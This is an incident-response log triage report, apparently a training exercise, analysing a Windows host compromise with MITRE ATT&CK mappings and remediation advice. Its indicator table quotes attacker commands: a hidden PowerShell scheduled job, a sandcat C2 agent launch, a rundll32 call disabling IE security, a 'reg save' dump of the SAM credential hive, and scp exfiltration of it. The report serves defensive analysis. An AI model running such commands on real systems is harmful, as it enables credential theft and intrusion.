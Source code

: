 **Title: Log Triage Analysis**

**Group/Name: James Jolley**

**Indicators and Technical Details**

| Datetime | Identifier (IP, Domain, URL, Hostname) | MITRE Technique ID | Analyst Comment |
| ----- | ----- | ----- | ----- |
| Mar 30, 2022 @ 17:15:12.298 | **powershell.exe** powershell.exe \-NoLogo \-NonInteractive \-WindowStyle Hidden \-Command "Import-Module PSScheduledJob; $jobDef \= \[Microsoft.PowerShell.ScheduledJob.ScheduledJobDefinition\]::LoadFromStore('CDA Adversary Framework', 'C:\\Users\\Administrator\\AppData\\Local\\Microsoft\\Windows\\PowerShell\\ScheduledJobs'); $jobDef.Run()" |  **T1053** Scheduled Task/Job | Creating and running a new scheduled job from ‘cda adversary framework’  using powershell. |
| Mar 30, 2022 @ 17:15:40.860 | "C:\\Users\\Public\\sandcat.go-windows.exe" \-server hxxps[://]caldera[.]le-priv[.]com \-group red | **T1219** Remote Access Software |  |
| Mar 30, 2022 @ 17:16:48.635	 | **rdpclip.exe** | **T0886** Remote Services | (**Analyst note:** this is the evidence for the attacker using rdp to access the system as tmctestface.) |
| Mar 30, 2022 @ 17:19:38.176 | **rundll32.exe** "C:\\Windows\\SysWOW64\\rundll32.exe" iesetup.dll,IEHardenMachineNow u |  **T1562.001** Impair Defenses: Disable or Modify Tools | tmctestface user running a command to disable enhanced security configurations in internet explorer. |
| Mar 30, 2022 @ 17:26:05.290	 | **processhacker-2.39-setup.exe** "C:\\Users\\tmctestface\\AppData\\Local\\Microsoft\\Windows\\INetCache\\IE\\RC0JXGDO\\processhacker-2.39-setup.exe"  | **T1588.002** Obtain Capabilities: Tool | Installing processhacker 2.39 |
| Mar 30, 2022 @ 17:32:39.002 | **reg.exe** "C:\\Windows\\system32\\reg.exe" save hklm\\sam c:\\temp\\sam.save	 | **T1005** Data from Local System | Saving a copy of the sam database to the /tmp directory. (**Analyst note:** user for this was tmctestface) |
| Mar 30, 2022 @ 17:35:04.39 | **scp.exe** "C:\\Windows\\System32\\OpenSSH\\scp.exe" .\\sam Administrator@10.20.8\[.\]14:C:\\ | **T1048** Exfiltration Over Alternative Protocol | Using SCP to exfiltrate the sam database. (**Analyst note:** the destination IP address is on the local network Administrator@10.20.8.14) |

**Executive Summary**

On March 30, 2022 we received an alert for a suspected compromise of one of our company computers. Upon investigation we found extensive signs of compromise, as well as indicators that this was part of a larger compromise on our network. We were able to identify the malicious activity and remediate the affected systems, however we did confirm that the attackers were able to exfiltrate sensitive user credentials and are recommending all passwords be immediately cycled to prevent this from causing further incidents going forward. We have identified the methods the attackers used to gain access, have remediated the issues, and are monitoring for further signs of compromise. 

**Technical Summary**

On March 30, 2022 we received an alert for workstation EC2AMAZ-D46OILK that some of the hardening settings on Internet Explorer had been removed, and unauthorized applications were potentially being downloaded. Upon deeper analysis we found the attacker had created a scheduled job using powershell, and executed sandcat.go to connect to a caldera c2 framework. Following that the attacker pivoted to the tmctestface user and disabled security settings on internet explorer, and then proceeded to download and install processhacker-2.39. Although this does not appear to have been the case in this instance, processhacker has been known to be used to disable security monitoring and logging applications on compromised hosts. From there the attacker created a copy of the HKLM\\sam to /tmp/sam and used scp to copy the file to Administrator@10.20.8\[.\]14. 87

(**Analyst Comment:**  based on the disjointed nature of the activity it is the theory of the analyst that we may be observing the activities of either A: an internal penetration test or B: two separate attackers on our system. However this is only speculation at this point as we have no concrete proof supporting this.)

**Findings and Analysis**

We noticed the administrator user creating and running a scheduled job from powershell loading from “CDA Adversary Framework”.(Figure 1\) Furthermore we observed them starting sandcat.go to connect to the caldera c2 framework ( Figure 2). This indicated that the Administrator account was already compromised on the host.

*Figure 1- using powershell to create and run a new scheduled job from “CDA Adversary Framework” store.*

![image1](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image1.png)

*Figure 2- Administrator user running sandcat.go*

![image2](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image2.png)

Following this activity, the attacker changed accounts and logged in as ‘tmctestface’ using rdp as noted by the use of rdpclip (Figure 4). We found tmctestface using rundll32.exe to disable enhanced security configurations in internet explorer.(Figure 3\)

*Figure 3- Using rundll32.exe to disable security config in IE.*

*![image3](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image3.png)*

*Figure 4- logging in using rdp*

*![image4](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image4.png)*

We discovered that after they disabled the security settings on internet explorer, they then downloaded and ran processhacker 2.39 on the system. (Figure 5). Process hacker has been known to be used for disabling security features and logging in the past, although that does not appear to have been the case in this instance given that we were still able to log activity following this.

*Figure 5- downloaded and installed process hacker 2.39*

*![image5](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image5.png)*

Upon viewing the intrusion detection alerts we discovered that the user tmctestface had copied the sam database to the /tmp directory and used scp to exfiltrate it to a domain joined computer in the Administrator’s C:\\ directory. (Figure 6\)  Interestingly, they do not seem to have copied or exfiltrated the system, or security hives which would normally be seen during this type of attack.

*Figure 6 \- tmctestface copying and exfiltrating the sam database from the host computer.*

![image6](https://github.com/jjolley91/Log_Triage/blob/main/Log_triage_imgs/image6.png)

**Remediation and Recommendations**

**Remove malicious programs:**

	Remove process hacker from the system

	Remove user tmctestface from the system

	Remove sandcat.go from the system

	Delete the created scheduled job from the system

	Rotate all user passwords

	Unless rdp is strictly necessary, disable access to it on machines.

**and/or**

	Reimage the affected machines

	Rotate all user passwords

	Monitor for further signs of compromise.

Monitor other machines on the local network for signs of compromise, as the ip address used to exfiltrate the sam hive was on the local domain, indicating other machines may also be compromised.

Create rules in ELK to alert on the activity seen in this incident, and increase visibility on our network.

**References**

[**https://medium.com/tensult/disable-internet-explorer-enhanced-security-configuration-in-windows-server-2019-a9cf5528be65**](https://medium.com/tensult/disable-internet-explorer-enhanced-security-configuration-in-windows-server-2019-a9cf5528be65)
